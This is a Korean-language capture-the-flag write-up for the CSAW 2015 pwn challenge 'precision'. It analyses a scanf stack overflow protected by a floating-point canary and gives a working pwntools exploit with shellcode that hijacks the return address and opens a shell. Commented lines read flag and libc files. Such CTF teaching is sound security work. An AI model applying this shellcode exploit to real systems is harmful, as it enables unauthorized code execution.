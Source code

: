 ============================================================================================================
[2015_csaw] [PWN] precision
============================================================================================================


Prior information
============================================================================================================

프로그램은 스택 카나리와 nx는 안걸려 있고, 문제에서 버퍼 위치를 찍어 줍니다. 

.. code-block:: console

    $ file ./precision   
    ./precision: ELF 32-bit LSB  executable, Intel 80386, version 1 (SYSV), 
    dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]
    =929fc6f283d6f6c3c039ee19bc846e927103ebcd, not stripped

    $ ./checksec.sh --file precision
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   precision

    $ ./precision
    Buff: 0xff9f7718
    joizel
    Got joizel

|

Source Analysis
============================================================================================================

먼저 IDA Hexray를 이용하여 해당 프로그램의 소스를 확인해보면 다음과 같습니다.

.. code-block:: c

    int __cdecl main(int argc, const char **argv, const char **envp)
    {
        int v4; // [sp+18h] [bp-88h]@1
        double v5; // [sp+98h] [bp-8h]@1

        v5 = 64.33333;
        setvbuf(stdout, 0, 2, 0);
        printf("Buff: %p\n", &v4);
        __isoc99_scanf("%s", &v4);  // overflow
        if ( 64.33333 != v5 )
        {
            puts("Nope");
            exit(1);
        }
        return printf(str, &v4);
    }

|

Segmentation fault
============================================================================================================

__isoc99_scanf에서 128바이트 이상 값이 입력될 경우 버퍼 오버플로우가 발생되는 것을 확인할 수 있습니다.

.. code-block:: console

    $ python -c 'print "A"*127' | ./precision
    Buff: 0xff96b918
    Got AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    AAAAAAAAAAAAA

    $ python -c 'print "A"*128' | ./precision
    Buff: 0xfff6c378
    Nope


중간에 v5값만 맞춰서 넣어 주면 리턴 주소값을 변경할 수 있습니다.

v5값은 IDA Hexray에서 dbl(floating point data) 형식으로 64.33333이 정의 되어 있는데 해당 값을 dword 형식으로 변환하면 해당 값이 0x475a31a5 40501555 인것을 확인할 수 있습니다. 

.. image:: ../_images/pwn-01.png
    :align: center

|

exploit
============================================================================================================

공격 코드는 다음과 같습니다.

.. code-block:: python

    from pwn import *

    #r = remote("54.173.98.115", 1259)
    r = process("./precision")
    recv = r.recvline()

    buf_addr = int(recv.split(" ")[1][2:], 16)
    print "%d [%s]" % (buf_addr, hex(buf_addr))

    # len(shellcode) = 74
    shellcode = "\xeb\x25\x5e\x31\xc9\xb1\x1e\x80\x3e\x07\x7c\x05\x80
    \x2e\x07\xeb\x11\x31\xdb\x31\xd2\xb3\x07\xb2\xff\x66\x42\x2a\x1e
    \x66\x29\xda\x88\x16\x46\xe2\xe2\xeb\x05\xe8\xd6\xff\xff\xff\x38
    \xc7\x57\x6f\x69\x68\x7a\x6f\x6f\x69\x70\x75\x36\x6f\x36\x36\x36
    \x36\x90\xea\x57\x90\xe9\x5a\x90\xe8\xb7\x12\xd4\x87" 

    # 128(dummy + shellcode) + v5 + 12(dummy) + ret(buf_addr)
    # 
    r.sendline("A"*(128 - len(shellcode)) + shellcode + p32(0x475a31a5) 
    + p32(0x40501555) + "EEEECCCCDDDD" + p32(buf_addr))
    #r.recv()
    r.interactive() 

    #r.sendline("cat flag.txt")
    print r.recv()

    #r.sendline("cat /lib32/libc.so.6")

    #x = ""
    #while r.can_recv(5):
        #x += r.recv()

    #with open("libc", "wb") as f:
        #f.write(x)


해당 공격 코드 실행 결과는 아래와 같다.

.. code-block:: console

    $ python exploit.py 

    [+] Started program './precision'
    4294231000 [0xfff4c3d8]
    [*] Switching to interactive mode
    $ 
    
